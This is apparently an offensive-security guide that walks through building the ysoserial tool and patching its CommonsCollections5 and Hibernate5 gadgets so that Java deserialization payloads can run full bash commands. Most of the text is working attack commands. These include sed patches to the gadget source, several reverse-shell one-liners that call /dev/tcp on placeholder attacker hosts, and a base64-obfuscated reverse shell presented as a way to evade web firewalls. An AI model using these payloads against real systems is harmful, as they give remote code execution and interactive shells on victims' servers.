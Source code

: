 #### 2.1. `ysoserial` setup

Java info:
```
# java --version
openjdk 11.0.6 2020-01-14
OpenJDK Runtime Environment (build 11.0.6+10-post-Debian-1deb10u1)
OpenJDK 64-Bit Server VM (build 11.0.6+10-post-Debian-1deb10u1, mixed mode, sharing)
```

Building `ysoserial` from source:
```
# apt-get install maven -yqq
# git clone https://github.com/frohoff/ysoserial && cd ysoserial

[PATCH NOTES BELLOW - APPLY CHANGES BEFORE BUILDING THE PROJECT]

# mvn clean package -DskipTests -Dhibernate5 # for Hibernate5 support
...
[INFO] BUILD SUCCESS
...
# mv target/ysoserial-*-SNAPSHOT-all.jar ~/ysoserial.jar && cd ~
```

Quick smoke test - Hibernate 5:
```
# java -Dhibernate5 -jar ysoserial.jar Hibernate1 'ls' > /tmp/hibernate5.serial
# file /tmp/hibernate5.serial && rm /tmp/hibernate5.serial
/tmp/hibernate5.serial: Java serialization data, version 5
```

Quick smoke test - Commons Collections 5:
```
# java -jar ysoserial.jar CommonsCollections5 'ls' > /tmp/collections5.serial
# file /tmp/collections5.serial && rm /tmp/collections5.serial
/tmp/collections3.serial: Java serialization data, version 5
```

#### 2.2. Patching

To support complex commands, `ysoserial` needs to be patched from a case-to-case basis.

From: `https://github.com/summitt/burp-ysoserial`
```
... commands like the following command would fail to execute on the victim server in the original ysoserial ...
... to run complex commands that pipe command into other commands in java the arguments needs to be a string Array ...

/bin/bash,,-c,,bash -i >& /dev/tcp/X.X.X.X/9997 0>&1

The above code will be split into a string array that java can run on the victim server. :) The resulting java code would look like: Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "bash -i >& /dev/tcp/X.X.X.X/9997 0>&1"});
```


##### 2.2.1. `ysoserial` patch 1 - `CommonsCollections5.java`

Since `burp-ysoserial` doesn't offer CommonsCollections5 (CC5) payload, so we need to fix the `ysoserial` manually.

File: `https://raw.githubusercontent.com/frohoff/ysoserial/master/src/main/java/ysoserial/payloads/CommonsCollections5.java`

Find the lines to be modified:
```
# cd ysoserial
# file=`find . -name CommonsCollections5.java`
# grep -n 'final.*execArgs = new .*' $file
58:		final String[] execArgs = new String[] { command };
# grep -n 'new Class.*execArgs.*' $file
72:					new Class[] { String.class }, execArgs),
```

Applying the patch:
```
# sed -i '58s/.*/final String[] execArgs = new String[]{"\/bin\/bash", "-c", command};/' $file
# sed -i '72s/.*/new Class[] { String[].class }, new Object[]{execArgs}),/' $file
```

Note: payloads like `java -jar ysoserial.jar CommonsCollections5 "sleep 5"` will fail in this case because the command must be executed via `Runtime.getRuntime().exec("sleep 10").waitFor();` -  whereas the `waitFor()` is missing in the gadget's `Transformer` object.


##### 2.2.2. `ysoserial` patch 2 - Hibernate 5 (`waitFor()` gadget)

File: `https://raw.githubusercontent.com/frohoff/ysoserial/master/src/main/java/ysoserial/payloads/util/Gadgets.java`

Find the lines to be modified:
```
# cd ysoserial
# file=`find . -name Gadgets.java`
# grep -n '\"\\");\";' $file
119:            "\");";
```

Applying the patch:
```
# sed -i '119s/.*/"\\").waitFor();";/' $file
```

Other patch could be applied for reverse shell:

```
String cmd = "java.lang.Runtime.getRuntime().exec(new String []{\"/bin/bash\",\"-c\",\"exec 5<>/dev/tcp/10.0.0.1/8080;cat <&5 | while read line; do \\$line 2>&5 >&5; done\"}).waitFor();";
```

WAF evasion:

- Default: `bash -i >& /dev/tcp/[IP address]/[port] 0>&1`
- Modified: `bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xLzgwODAgMD4mMQ==}|{base64,-d}|{bash,-i}`
